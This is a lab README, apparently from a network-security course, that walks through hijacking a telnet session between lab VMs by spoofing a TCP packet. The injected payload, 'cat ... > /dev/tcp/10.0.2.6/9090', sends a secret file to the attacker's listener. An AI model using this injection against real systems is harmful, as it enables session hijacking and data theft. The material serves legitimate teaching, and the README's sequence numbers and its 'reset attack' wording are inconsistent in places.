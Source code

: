 ## TCP Session Hijacking Attack

### Requirements 

In this lab, we will hijack a telnet session (between the victim client and the victim server) and inject a malicious command. In particular, the attacker wants to see the content of a secret file (stored on the server). At the end of this lab, if the attack is successful, the content of this secret file will be displayed in the attacker's terminal window.

### Setup

3 Linux VMs. VM1 as the victim (telnet client); VM2 as the telnet server; VM3 as the attacker. The 3 VMs reside in the same network. This README uses the following IP addresses.

| VM Name     | IP Address  |
|-------------|-------------|
| VM1         | 10.0.2.4    |
| VM2         | 10.0.2.5    |
| VM3         | 10.0.2.6    |

### Steps

1. let the client connect to the server using telnet.

![alt text](lab-tcp-hijack-telnet.png "Lab tcp session hijacking telnet")

2. the client uses this *echo* command to create a secret file on the server.

![alt text](lab-tcp-hijack-echo.png "Lab tcp session hijacking echo")

3. the client uses the *cat* command to confirm the file now exists and is located at /home/seed/secret:
![alt text](lab-tcp-hijack-cat.png "Lab tcp session hijacking cat")

3. let the attacker start monitoring network traffic using wireshark.

![alt text](lab-tcp-hijack-start-wireshark.png "Lab tcp hijack start wireshark")
![alt text](lab-tcp-hijack-start-capture.png "Lab tcp hijack start capture")

4. client produces some telnet packets. (any telnet packets, you can just type a command like *ls*).

![alt text](lab-tcp-hijack-ls.png "Lab tcp hijack ls command")

5. attacker stops wireshark capturing, and navigates to the latest packet sent from the client to the server.

This image shows the ip addresses, and the ttl attribute.
![alt text](lab-tcp-hijack-capture1.png "Lab tcp hijack latest tcp capture - part 1")

This image shows the port numbers, the next sequence number, the acknowledgment number, and the window size - still the same packet.
![alt text](lab-tcp-hijack-capture2.png "Lab tcp hijack latest tcp capture - part 2")

6. the above packet provides the information which the attacker needs to know in order to perform the tcp reset attack. now, the attacker, mimicking the client, only needs to send one single regular TCP packet to the server. To send a regular TCP packet, a python script named send_tcp.py is provided. When running this script, it will send a TCP packet to a destination. You need to change the script so that the following 9 lines match with your situation.

```console
source_ip = "10.0.2.4"
destination_ip = "10.0.2.5"
source_port = 45736
destination_port = 23
sequence_num = 1717083005
acknowledgment_num = 1242665292
ttl_value = 64
window_size = 501
tcp_payload = "\rcat /home/seed/secret > /dev/tcp/10.0.2.6/9090\r"
```

**Note**: because the attacker is mimicking the client, thus the source ip address needs to be the client's IP address; from the captured latest packet, we can see the next sequence number is *2523450797*, the acknowledgment number is *311613137*; the source port (in this example) is 45736, the destination port is 23. the tcp window size (in this example) is 501, the time to live (ttl) value is 64. The tcp data we can use is: "\rcat /home/seed/secret > /dev/tcp/10.0.2.6/9090\r".

**Explanation**: The telnet command we want to inject is: "cat /home/seed/secret > /dev/tcp/attacker_ip/9090", but we want this command to be sandwiched by two newline signs "\r", so that the command will not be concatenated with other random strings.

**Explanation 2**: why the telnet command we want to inject is "cat /home/seed/secret > /dev/tcp/attacker_ip/9090". Because "cat /home/seed/secret" shows the content of the secret file, but this command will only display the content in the victim client's terminal window, not in the attacker's terminal window. This "cat /home/seed/secret > /dev/tcp/attacker_ip/9090" will redirect the output of the cat command into a tcp port 9090 at the attacker's ip address. Thus we come to our next step,

7. before pressing enter, the attacker needs to open another terminal window so that the attacker can listen on a port at the attacker's IP address - we will choose port 9090.

![alt text](lab-tcp-hijack-listening.png "Lab tcp hijacking attack listening on port 9090")

- after pressing enter:
![alt text](lab-tcp-hijack-after-enter.png "Lab tcp hijacking attack after enter command")

7. once the attacker pressed enter to execute the above script, if the attack is successful, the victim server's secret file will be displayed in the attacker's terminal window:

![alt text](lab-tcp-hijack-success.png "Lab tcp session hijacking attack successful")

This indicates that the attack is successful and concludes the lab.
